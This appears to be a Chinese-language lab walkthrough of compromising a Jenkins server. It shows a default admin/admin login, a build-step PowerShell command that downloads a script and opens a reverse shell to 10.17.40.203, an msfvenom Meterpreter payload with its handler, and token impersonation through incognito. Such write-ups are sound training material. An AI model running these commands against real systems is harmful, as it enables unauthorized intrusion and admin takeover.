 登录页面是admin：admin

jenkins的默认账号密码，就是`admin/admin`

登录进去之后需要想办法

![image.png](https://s2.loli.net/2025/04/17/FicuwKpRBWzLe46.png)

## 初级权限
点击project

![image.png](https://s2.loli.net/2025/04/17/e1E9AtjWsBzivKH.png)

点击配置文件

在这里有远程命令执行的地方

```
powershell iex (New-Object Net.WebClient).DownloadString('http://10.17.40.203:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.17.40.203 -Port 8888

因为是使用vpn的缘故 我们在这里ip也只能设置成vpn给我们分配的ip
```
![image.png](https://s2.loli.net/2025/04/18/Zs2wAiBd6pXhYMR.png)

配置完成后 直接点击build now 可以成功反弹shell 文件也成功上传

![image.png](https://s2.loli.net/2025/04/18/rKFAlivqWjOc439.png)

![image.png](https://s2.loli.net/2025/04/18/V4cX2Op6oK7iPne.png)

算获得了初始权限 我们下面用msf来演示一下 需要我们用msfvenom 编写一个能够生成Windows Meterpreter 反向shell的exe文件

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.17.40.203 LPORT=4567 -f exe -o shell2.exe
```

然后需要我们用刚才的powershell命令将这个shell2.exe传到靶机上

![image.png](https://s2.loli.net/2025/04/18/NfvE46SHbWDr5QZ.png)

在运行exe文件前 需要先设置好msf的参数

```
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST 10.17.40.203 
set LPORT 4567 
```

![image.png](https://s2.loli.net/2025/04/18/oUvTFcDQ3185KLs.png)

先运行msf 再运行exe文件 成功连接

## 权限提升
这里用令牌模拟来获取系统访问权限

### 基本知识

访问令牌包括：

    User SIDs(security identifier)
    用户 SID （安全标识符）
    Group SIDs  组 SID
    Privileges  特权

#### 类型
有两种类型的访问令牌：

1. 主访问令牌(primary access tokens)：此类令牌是指与登录时所生成的用户账户相关联的令牌。

2. 模拟令牌(impersonation tokens)：此类令牌能够允许特定进程（或进程中的线程）使用另一个（用户/客户端）进程的令牌来访问相关的资源。

对于模拟令牌，有不同的级别：

- SecurityAnonymous：当前 用户/客户端 不能模拟另一个 用户/客户端。
- SecurityIdentification：当前 用户/客户端 可以获得客户端的身份和权限，但不能模拟客户端。
- SecurityImpersonation：当前 用户/客户端 可以在本地系统上模拟客户端的安全上下文。
- SecurityDelegation：当前 用户/客户端 可以在远程系统上模拟客户端的安全上下文。

最常被滥用的特权：

- SeImpersonatePrivilege
- SeAssignPrimaryPrivilege
- SeTcbPrivilege
- SeBackupPrivilege
- SeRestorePrivilege
- SeCreateTokenPrivilege
- SeLoadDriverPrivilege
- SeTakeOwnershipPrivilege
- SeDebugPrivilege

先使用whoami  /priv

查看本机在目标机子中的所有权限

目标机启用了两个关键权限（SeDebugPrivilege、SeImpersonatePrivilege），这两个权限能够让我们使用MSF中的模块来进行令牌模拟操作 这是个重点

![image.png](https://s2.loli.net/2025/04/18/yV8ne9N6dm42oK1.png)

![image.png](https://s2.loli.net/2025/04/18/UVvl1OnjQHGiKx6.png)

在Meterpreter shell界面加载MSF中的incognito模块

`incognito`是Metasploit Framework（MSF）中用于​**​令牌窃取与模拟​**​的核心后渗透模块，专为Windows系统设计。

```
load incognito
list_tokens -g
impersonate_token "BUILTIN\Administrators"
getuid

在这里有个BUILTIN\Administrators管理员账户可用 就模拟他的令牌

偷窃成功之后 会发现我们现在是管理员用户
```


![image.png](https://s2.loli.net/2025/04/18/6FDriBUySP5tuAo.png)



![image.png](https://s2.loli.net/2025/04/18/g9QDPw6WlCS4k3m.png)

获得了管理员用户 但还是不够因为我们没有实际对应用户的特殊权限 需要把进程转移到具有对应特权的进程中 、可以选择迁移到最安全的services.exe进程

![image.png](https://s2.loli.net/2025/04/18/T6kW1N8DwLZI2m7.png)


迁移成功
![image.png](https://s2.loli.net/2025/04/18/dxM9lNrknEjw7gt.png)

